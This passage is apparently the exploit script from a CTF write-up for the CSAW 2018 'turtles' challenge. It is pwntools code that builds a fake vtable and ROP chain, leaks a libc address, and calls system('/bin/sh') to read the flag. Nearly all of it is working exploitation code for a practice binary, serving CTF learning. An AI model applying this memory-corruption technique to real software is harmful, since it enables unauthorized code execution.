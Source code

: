 ```py  

payload = (  
   p64(turtle + base_vtable + 0x00 - 0x040) + # class

   rop.chain().ljust(base_data - 8, b"\0") +  
   data.ljust(base_vtable - base_data, b"\0") +

   p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct  
   p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1  
   p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2  
   p64(method)  
)

r.send(payload.ljust(200, b'A'))

setvbuf_addr = u64(r.readuntil(b"END")[:-3].ljust(8, b"\0"))  
print("setvbuf address: 0x{:016x}".format(setvbuf_addr))

libc.address = setvbuf_addr - libc.symbols[b"setvbuf"]  
print("system address: 0x{:016x}".format(libc.symbols[b"system"]))

data = b"/bin/sh"

r.readuntil(b": ")  
turtle = int(r.readline(), 16)  
print("turtle address: 0x{:016x}".format(turtle))

method = rop_adjust4  
rop = ROP([ELF("./turtles")])

rop.raw(rop_rdi)  
rop.raw(turtle + base_data)  
rop.raw(libc.symbols[b"system"])  
rop.raw(0x4343434343434343)

payload = (  
   p64(turtle + base_vtable + 0x00 - 0x040) + # class

   rop.chain().ljust(base_data - 8, b"\0") +  
   data.ljust(base_vtable - base_data, b"\0") +

   p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct  
   p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1  
   p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2  
   p64(method)  
)

r.send(payload.ljust(200, b'A'))

r.sendline(b"cat flag")  
print(r.readline().decode())  
```

Original writeup (https://losfuzzys.github.io/writeup/2018/09/20/csawctfquals-
turtles/).